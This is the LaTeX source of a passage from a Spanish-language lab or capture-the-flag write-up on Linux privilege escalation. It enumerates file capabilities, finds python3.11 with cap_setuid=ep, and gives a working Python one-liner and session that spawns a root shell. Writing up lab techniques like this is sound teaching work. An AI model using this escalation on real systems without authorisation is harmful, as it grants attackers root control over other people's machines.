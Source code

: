 \documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Enumeración de capabilities}

Las \textbf{Linux capabilities} son una alternativa a SUID que otorgan privilegios específicos a binarios sin necesidad de darles acceso completo de \texttt{root}. Las enumeramos con:

\begin{lstlisting}[language=bash]
getcap -r / 2>/dev/null
\end{lstlisting}

\begin{lstlisting}[style=output]
/usr/bin/python3.11 cap_setuid=ep
\end{lstlisting}

\begin{notebox}
  \textbf{¿Qué significa \texttt{cap\_setuid=ep}?}\\[4pt]
  La capability \texttt{cap\_setuid} permite a un proceso cambiar su UID de forma arbitraria. Con el flag \texttt{ep} (\textit{effective} + \textit{permitted}), este privilegio está activo desde el momento en que se ejecuta el binario, sin necesidad de código adicional. Esto significa que \texttt{python3.11} puede llamar a \texttt{os.setuid(0)} para convertirse en \texttt{root}.
\end{notebox}

\subsection{Explotación de la capability}

Aprovechamos la capability de Python para cambiar nuestro UID a 0 (\texttt{root}) y ejecutar una shell:

\begin{lstlisting}[style=pythonstyle]
python3.11 -c "import os; os.setuid(0); os.system('/bin/bash')"
\end{lstlisting}

O de forma interactiva:

\begin{lstlisting}[style=output]
cody@f7fe9a1dcbd2:~$ python3.11
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@f7fe9a1dcbd2:~# whoami
root
root@f7fe9a1dcbd2:~# id
uid=0(root) gid=1000(cody) groups=1000(cody)
root@f7fe9a1dcbd2:~#
\end{lstlisting}

\begin{flagbox}
  \textbf{Máquina comprometida.} Se ha obtenido acceso como \texttt{root} (uid=0).
\end{flagbox}
\end{document}
